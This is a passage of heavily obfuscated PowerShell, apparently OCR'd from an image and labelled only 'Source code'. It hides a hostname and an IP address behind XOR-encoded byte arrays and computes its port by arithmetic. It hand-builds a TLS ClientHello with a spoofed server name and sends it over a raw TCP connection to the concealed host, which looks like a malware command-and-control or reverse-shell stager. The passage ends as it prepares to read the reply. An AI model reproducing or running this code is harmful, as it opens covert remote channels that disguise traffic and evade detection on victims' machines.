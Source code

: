 ```
       return (0x17, 0x03, 0x03) + $B88BBBBBB888888B + $BBBB8888BBBBB8BB
                }
             function llIIlllllIIIlllI {
                 $B88B888B8888B888 = (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(168,187,172,183,184,167,240,186,171,169,176,177,176,186,187,172,240,189,177,179) -BB8BB8B8BBB8B8B8 222)
          $BBBB8B8BB888B88B = [System.Text.Encoding]::ASCII.GetBytes($B88B888B8888B888)
            $BB88BBBB88B8888B = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBBB8B8BB888B88B.Length))
                          [Array]::Reverse($BB88BBBB88B8888B)
                       $B88888B888888BB8 = @(0x00) + $BB88BBBB88B8888B + $BBBB8B8BB888B88B
                   $BB8BBBB8B8888BB8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$B88888B888888BB8.Length))
                       [Array]::Reverse($BB8BBBB8B8888BB8)
         $B8888B88BB888B88 = $BB8BBBB8B8888BB8 + $B88888B888888BB8
              $B888B888BBB8B8BB = [byte[]] ([BitConverter]::GetBytes([UInt16]$B8888B88BB888B88.Length))
        [Array]::Reverse($B888B888BBB8B8BB)
                     $B8BB88BBBB8B88B8 = @(0x00,
                0x00) + $B888B888BBB8B8BB + $B8888B88BB888B88
                 $BBBB88B8BB88B88B = @(0x00, 0x0b,0x00,0x04,0x03,0x00,0x01,0x02,
                                 0x00,0x0a,0x00,0x16,0x00,0x14,0x00,0x1d,0x00,0x17,0x00,0x1e,0x00,0x19,0x00,0x18,0x01,0x00,0x01,0x01,0x01,0x02,0x01,0x03,0x01,0x04,
                                            0x00,0x23,0x00,0x00,
                              0x00,0x16,0x00,0x00,
                                      0x00,0x17,0x00,0x00,
                                    0x00,0x0d,0x00,0x1e,0x00,0x1c,0x04,0x03,0x05,0x03,0x06,0x03,0x08,0x07,0x08,0x08,0x08,0x09,0x08,0x0a,0x08,0x0b,0x08,0x04,0x08,0x05,0x08,0x06,0x04,0x01,0x05,0x01,0x06,0x01,
                                      0x00,0x2b,0x00,0x03,0x02,0x03,0x04,
                             0x00,0x2d,0x00,0x02,0x01,0x01,
                                   0x00,0x33,0x00,0x26,0x00,0x24,0x00,0x1d,0x00,0x20,
                          0x35,0x80,0x72,0xd6,0x36,0x58,0x80,0xd1,0xae,0xea,0x32,0x9a,0xdf,0x91,0x21,0x38,0x38,0x51,0xed,0x21,0xa2,0x8e,0x3b,0x75,0xe9,0x65,0xd0,0xd2,0xcd,0x16,0x62,0x54)
           $BB88BB8BB88BB88B = $B8BB88BBBB8B88B8 + $BBBB88B8BB88B88B
          $BBBB8B88888888B8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$BB88BB8BB88BB88B.Length))
         [Array]::Reverse($BBBB8B88888888B8)
     $B8888BBB888B8888 = @(0x03,0x03,0x00,0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08,0x09,0x0a,0x0b,0x0c,
                        0x0d,0x0e,0x0f,
               0x10,0x11,0x12,0x13,0x14,0x15,0x16,0x17,
                        0x18,
               0x19,0x1a,0x1b,0x1c,0x1d,0x1e,0x1f,0x20,0xe0,0xe1,
                   0xe2,0xe3,0xe4,0xe5,0xe6,0xe7,0xe8,0xe9,0xea,0xeb,0xec,0xed,0xee,0xef,0xf0,0xf1,0xf2,0xf3,0xf4,0xf5,0xf6,0xf7,0xf8,0xf9,0xfa,
                     0xfb,0xfc,0xfd,0xfe,0xff,0x00,0x08,0x13,0x02,0x13,0x03,0x13,0x01,0x00,0xff,0x01,0x00)
          $BB8B8BBBB88B8B8B = $B8888BBB888B8888 + $BBBB8B88888888B8 + $BB88BB8BB88BB88B
             $BB8BBB88B8B8B888 = [byte[]] ([BitConverter]::GetBytes($BB8B8BBBB88B8B8B.Length))
        [Array]::Reverse($BB8BBB88B8B8B888)
     $BBB88BBB888B8B8B = @(0x01) + $BB8BBB88B8B8B888[1..3] + $BB8B8BBBB88B8B8B
        $B88B888B8BB8BBBB = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBB88BBB888B8B8B.Length))
         [Array]::Reverse($B88B888B8BB8BBBB)
                      $BBB888888BB88B88 = @(0x16,
                   0x03, 0x01) + $B88B888B8BB8BBBB + $BBB88BBB888B8B8B
       return ,$BBB888888BB88B88
                 }
 $BBBB8BBBBBB8B88B = New-Object System.Net.Sockets.TcpClient
                    $BBBB8BBBBBB8B88B.Connect((IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(5,7,25,2,25,3,15,25,5,7,7) -BB8BB8B8BBB8B8B8 55), ((50 * 9) - (11 * 2)) + [math]::Pow(2, 3) + [math]::Sqrt(49))
      $BBBB888888B88BBB = $BBBB8BBBBBB8B88B.GetStream()
 $BB88888BB8B8B8BB = llIIlllllIIIlllI
        $BBBB888888B88BBB.Write($BB88888BB8B8B8BB, 0, $BB88888BB8B8B8BB.Length)
        $B8B888BB8B8888BB = New-Object byte[] 16384
```